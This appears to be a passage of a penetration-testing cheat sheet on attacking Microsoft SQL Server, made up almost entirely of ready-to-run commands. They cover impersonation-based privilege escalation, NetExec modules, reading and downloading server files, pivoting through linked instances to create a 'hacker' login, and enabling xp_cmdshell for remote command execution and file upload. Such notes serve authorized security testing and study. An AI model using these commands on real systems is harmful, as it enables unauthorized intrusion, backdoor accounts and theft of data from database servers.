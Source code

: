         *   `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
        *   `EXECUTE AS LOGIN = '[PRIVILEGED_USER]'`
        *   NXC
            *   `nxc mssql [IP] [AUTH_STRING] -M mssql_priv`
            *   `nxc mssql [IP] [AUTH_STRING] -M mssql_priv -o ACTION=privesc`
            *   `nxc mssql [IP] [AUTH_STRING] -q ‘[MSSQL_QUERY]’`
    *   OS Read
        *   Download               → `nxc mssql [IP] [AUTH_STRING] --get-file C:\\[SRC] [OUT]`
        *   Directory Listing   → `EXEC master..xp_dirtree [OS_DIR]`
        *   File Read                 → `SELECT * FROM OPENROWSET(BULK N'[PATH\\TO\\FILE]', SINGLE_CLOB) AS Contents`
    *   Linked Instances
        *   `SELECT * FROM master..sysservers;` → Check Instances with `IsRemote = 0`
        *   `EXECUTE('[MSSQL_QUERY]') AT [[INSTANCE]]`
        *   Queries
            *   `EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = password'') AT [[INSTANCE]]`
            *   `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [[INSTANCE]]`
    *   RCE / File Upload (Admin)
        *   `enable_xp_cmdshell` → `xp_cmdshell [CMD]` 
        *   `nxc mssql [IP] [AUTH_STRING] --put-file [SRC] C:\\Windows\\Temp\\[OUT]`
        *   `nxc mssql [IP] [AUTH_STRING] [-x/-X] [CMD/PS_COMMAND]`